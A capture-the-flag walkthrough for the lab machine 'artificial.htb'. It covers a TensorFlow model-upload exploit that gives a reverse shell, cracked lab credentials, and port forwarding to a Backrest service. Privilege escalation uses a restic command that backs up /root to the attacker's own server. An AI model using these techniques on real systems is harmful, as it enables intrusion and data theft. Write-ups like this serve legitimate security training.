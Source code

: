 ![[Pasted image 20250811180511.png]]

### Stuff to learn in this box 
	1. Deep Enumeration
	2. Port Forwarding
	3. Understanding New Services and How To Abuse it 

Do an `nmap` scan `nmap -A 10.10.11.74`
![[Pasted image 20250731142038.png]]

Put this domain "**artificial.htb**" into the `/etc/hosts` file
![[Pasted image 20250731142218.png]]

Browse to the web server, found this home page
![[Pasted image 20250731142239.png]]

Register an account, then log in
![[Pasted image 20250731142524.png]]

Found this dashboard page, it's an upload functionality for AI models
![[Pasted image 20250731142606.png]]

There are some requirements, let's download it and check it out 
![[Pasted image 20250731145213.png]]
tensorflow is required, search about any related exploits, found this one **[tensorflow-rce](https://mastersplinter.work/research/tensorflow-rce/)**

Modify the IP and port in the `exploit.py` file
![[Pasted image 20250731150213.png]]

Establish a python environment then install tensorflow `pip3 install tensorflow`

Then run `exploit.py` , `exploit.h5` file created

Set a `netcat` listener on port 1337

Upload the `exploit.h5` file, and click on "View Predictions"
![[Pasted image 20250731153939.png]]

We've got a shell with app user 
![[Pasted image 20250805025714.png]]

List users in the `/home` directory, found the gael user
![[Pasted image 20250805030721.png]]

Doing a deep files enumeration, we found this `users.db` file 
![[Pasted image 20250805030327.png]]

Cat it out, we've got the hash for **gael**
![[Pasted image 20250805030458.png]]

Seems an MD hash, no harm if we make sure
![[Pasted image 20250805030739.png]]

Use `hashcat` to crack the hash
![[Pasted image 20250805030826.png]]
We've got this password for **gael : mattp005numbertwo**

Get a shell for gael with `ssh`
![[Pasted image 20250805030845.png]]

Cat out the user flag
![[Pasted image 20250805030857.png]]

List the listening ports internally, Found 9898 port open and listening by trying each port
![[Pasted image 20250805031828.png]]

Forward the connection to the same port on our localhost
![[Pasted image 20250805031841.png]]

Browse the localhost on that port, found this **Backrest 1.7.2** service, also we need to get credentials to get in
![[Pasted image 20250805034515.png]]
Tried to searching about an online exploit for this version but didn't found any

Let's use `find` to look for any backups files and directories
![[Pasted image 20250805034501.png]]
Found this `backrest_backup.tar.gz` file, let's move it into our mahcine

Identify the file type with `file` command, found out it's a **tar** file, so let's change its name to remove the **.gz**, then extract it with `tar`
![[Pasted image 20250805034545.png]]

After digging deep in the extracted files, fond this credentials for the backrest service
![[Pasted image 20250805034747.png]]

Use `hashcat` to crack this hash  
![[Pasted image 20250805040358.png]]
Credentials **backrest_root : !@#$%^**

Log into backrest service using the credentials, Found this page   
![[Pasted image 20250805040613.png]]

Download the **rest-server** release for Linux

Set a rest listener on port 1337 with no auth `./rest-server --listen :1337 --no-auth`
![[Pasted image 20250805070207.png]]

Then add a repository with any name in the backrest service, and specify our machine IP and the port we sat with the rest server    
![[Pasted image 20250805070519.png]]

Got a connection contains the repository path `/tmp/restic`
![[Pasted image 20250805070558.png]]

Click on "Run Command" tab  
![[Pasted image 20250805064823.png]]

Then paste this command to backup the `/root` directory into the backrest service
`-r rest:http://10.10.16.25:1337 backup /root`
![[Pasted image 20250805070757.png]]

Then restore the backup we made for `/root` directory using `restic` binary specifying the repository path
`./restic restore -r "/tmp/restic" latest --target .`
![[Pasted image 20250805071205.png]]
We've got a the root directory, let's go there and get the root flag

We've got the root flag  
![[Pasted image 20250805071345.png]]

But with that only we didn't actually escalate our privileges to root yet 

Since we've go all files within the root directory, we can use the `id_rsa` for root to get a shell with `ssh` 
![[Pasted image 20250805062607.png]]
Cool! now we got a root shell and can access the root flag that way!

**Congrats! You pawned the machine successfully!**
![[Pasted image 20250805061738.png]]
